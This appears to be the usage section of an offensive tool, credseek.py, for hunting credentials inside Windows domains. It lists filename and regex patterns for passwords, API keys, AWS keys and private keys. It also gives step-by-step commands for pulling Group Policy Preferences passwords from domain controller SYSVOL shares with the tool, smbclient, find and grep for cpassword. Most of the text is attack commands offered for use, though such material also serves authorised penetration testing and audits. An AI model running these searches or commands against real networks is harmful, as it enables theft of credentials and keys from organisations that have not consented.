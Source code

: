 ## Search Patterns

### File Types
- **Passwords**: `*password*.txt`, `*creds*.xlsx`, `*secret*.txt`
- **Configs**: `.env`, `config.php`, `web.config`, `appsettings.json`
- **SSH Keys**: `id_rsa`, `*.pem`, `authorized_keys`
- **Backups**: `*.backup`, `*.bak`, `*.old`
- **Scripts**: `*.ps1`, `*.sh`, `*.py`, `*.bat`
- **Git**: `.git/config`

### Credential Patterns
```
password=value
api_key=value
token=value
jdbc:mysql://user:pass@host
AKIA[A-Z0-9]{16}
-----BEGIN RSA PRIVATE KEY-----
```

## GPP Password Extraction

### Quick GPP Scan
```bash
# Scan Domain Controllers
./credseek.py --gpp dc01.corp.local -u user -p pass -d CORP

# From DC list
./credseek.py --gpp dclist.txt -u user -p pass -d CORP
```

### Manual GPP Check
```bash
# Access SYSVOL
smbclient //dc01/SYSVOL -U user

# Find Groups.xml files
find . -name "Groups.xml" -o -name "ScheduledTasks.xml"

# Look for cpassword attributes
grep -r "cpassword" .
```

### GPP Files to Check
```
\\DOMAIN\SYSVOL\DOMAIN\Policies\{GUID}\Machine\Preferences\Groups\Groups.xml
\\DOMAIN\SYSVOL\DOMAIN\Policies\{GUID}\User\Preferences\Groups\Groups.xml
\\DOMAIN\SYSVOL\DOMAIN\Policies\{GUID}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
```
